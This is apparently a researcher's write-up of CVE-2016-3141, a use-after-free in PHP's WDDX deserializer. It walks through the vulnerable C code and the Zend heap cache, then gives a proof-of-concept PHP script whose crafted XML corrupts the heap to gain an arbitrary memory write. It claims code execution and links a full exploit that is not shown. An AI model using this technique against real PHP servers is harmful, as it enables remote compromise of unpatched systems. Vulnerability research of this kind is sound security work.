

# CVE-2016-3141

## 1. Vulnerability Detail.

Use-after-free vulnerability in wddx.c in the WDDX extension in PHP before 5.5.33 and 5.6.x before 5.6.19 allows remote attackers to cause a denial of service (memory corruption and application crash) or possibly have unspecified other impact by triggering a wddx_deserialize call on XML data containing a crafted var element.	

## 2. Overview Bug.

This a User After Free bug, occured when wddx try to process XML data.
Take look at this code in function **php\_wddx\_deserialize_ex**. When wddx\_deserialize($xml) some XML data, php will call this function and then set some functions to handle xml tag and data.

```C
	XML_SetUserData(parser, &stack);
	XML_SetElementHandler(parser, php_wddx_push_element, php_wddx_pop_element);
	XML_SetCharacterDataHandler(parser, php_wddx_process_data);
```

Function `php_wddx_push_element` create a entry for a tag as you can see in this snipped. For example when you input 
`<string>Hello World</string>` if they hit open tag _<string>_ will call php\_wddx\_push\_element to create an st_entry tag that store information of a tag, let take a look some snipped code below.

```C
static void php_wddx_push_element(void *user_data, const XML_Char *name, const XML_Char **atts)
{
	st_entry ent;
	wddx_stack *stack = (wddx_stack *)user_data;
	
	----SNIP----
	else if (!strcmp(name, EL_STRING)) {
		ent.type = ST_STRING;
		SET_STACK_VARNAME;
	
		ALLOC_ZVAL(ent.data);
		INIT_PZVAL(ent.data);
		Z_TYPE_P(ent.data) = IS_STRING;
		Z_STRVAL_P(ent.data) = STR_EMPTY_ALLOC();
		Z_STRLEN_P(ent.data) = 0;
		wddx_stack_push((wddx_stack *)stack, &ent, sizeof(st\_entry));
	} 
	----SNIP----
}
```

*SET\_STACK_VARNAME* is a procedure is define below. This procedure is simple check stack->varname of a tag if they not NULL thay will clone this stack->varname and then free it.

```C
#define SET_STACK_VARNAME							\
		if (stack->varname) {						\
			ent.varname = estrdup(stack->varname);	\
			efree(stack->varname);					\
			stack->varname = NULL;					\
		} else										\
			ent.varname = NULL;						\
```

The bug happened in `php_wddx_pop_element`. When xml close a tag of var tag, it will free **varname** of this tag, and this free pointer still store in **stack->varname**. For example, if you create a var like `<var name='UAF'></var>`, php_wddx_push_element will create a struct that store this *var* tag then when you closed this tag the free it but forget to set this `stack->name = NULL` or decrease `stack->top`, after that if you create a other tag such as `<string>` the function `SET_STACK_VARNAME` will reuse this free pointer.

```C
static void php_wddx_pop_element(void *user_data, const XML_Char *name)
{
	# ***SNIP***
	} else if (!strcmp(name, EL_VAR) && stack->varname) {
		efree(stack->varname);
	}
	# ***SNIP***
}
```

## 3. The Exploitation

When i first saw this bug, i thought "can't i turn this bug to code excution ?". First, i have to understand how zend heap implement, let see function `_zend_mm_alloc_int` in zend_alloc.c below

```C
if (EXPECTED(ZEND_MM_SMALL_SIZE(true_size))) {
		size_t index = ZEND_MM_BUCKET_INDEX(true_size);
		size_t bitmap;
		if (UNEXPECTED(true_size < size)) {
			goto out_of_memory;
		}
#if ZEND_MM_CACHE
		if (EXPECTED(heap->cache[index] != NULL)) {
			/* Get block from cache */
#if ZEND_MM_CACHE_STAT
			heap->cache_stat[index].count--;
			heap->cache_stat[index].hit++;
#endif
			best_fit = heap->cache[index];
			heap->cache[index] = best_fit->prev_free_block;
			heap->cached -= true_size;
			ZEND_MM_CHECK_MAGIC(best_fit, MEM_BLOCK_CACHED);
			ZEND_MM_SET_DEBUG_INFO(best_fit, size, 1, 0);
			HANDLE_UNBLOCK_INTERRUPTIONS();
			return ZEND_MM_DATA_OF(best_fit);
 		}
```
If we malloc chunk size is small (less than 256 bytes) zend\_alloc will use *heap->cache* , is a free chunk list that stored many small free chunk linked list, this *heap->cache* like malloc *fast_bin*. If some how we can overwrite best\_fit->prev\_free\_block pointer with own address then zend\_alloc again and we can use it address to write somewhere in memory.

To do that, i will create wddx xml below:

```php
$xml = <<<EOF
<?xml version='1.0' ?>
<!DOCTYPE wddxPacket SYSTEM 'wddx_0100.dtd'>
<wddxPacket version='1.0'>
	<array>
		<binary>HERE</binary> # (1)
		<var name='XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX'></var> #(2)
		<binary>REPLACE</binary> # (3)
		<var name='SUCK'></var> # (4)
		<boolean value='a'/>
		<boolean value='true'/>
	</array>
</wddxPacket>
EOF;

$binary_value = base64_encode(str_repeat("A",32));

$xml = str_replace("HERE",$binary_value,$xml);
$xml = str_replace("REPLACE",base64_encode(str_repeat("Z",64)),$xml);

$wddx = wddx_deserialize($xml); 

foreach($wddx as $k => $v){
	$k = "".str_repeat("C",6); (5)
	
	$t = (string)$v; (6)
	$g = (string)$v; (7)
}
```

1. Create 32 bytes (chunk_a) with binary tag because this tag allow you to input non-printable character.
2. Create a name with same size as first binary tag and the make this name value is freed (chunk_b).
3. Create a padding chunk with 64 bytes (chunk_c).
4. Create a name with 8 bytes and then free it (chunk_d).
5. After deserialize this $xml, i make a foreach loop throught this object in the first loop i have $k now point to chunk\_b is freed, $v now point to chunk\_a, i use operator *concat\_function* to overwrite best\_fit->prev\_free_block with own data.
6. Use php string casting which call to estrncpy to create a new chunk (chunk_e) now to point to chunk\_b and make heap->cache[index] store own value.
7. Ok do that again estrncpy($v,32) ($v=$binary\_value) first zend_alloc again and we have crash $r12 = 0x4343434343, if we replace this value with another address, estrncpy will happy to call memcpy(r12,v,size) by that we can overwrite anywhere we want.


You can see my full exploit here [peter_code_execute.php](./peter_code_execute.php) (Tested on Ubuntu 14.04.4 x86_64 - PHP 5.5.9-1ubuntu4.14).

Finally, i have turned this bug to Code Execution successfully.



# 4. Preferences

[http://www.cvedetails.com/cve/CVE-2016-3141/](http://www.cvedetails.com/cve/CVE-2016-3141/).

[https://bugs.php.net/bug.php?id=71587](https://bugs.php.net/bug.php?id=71587).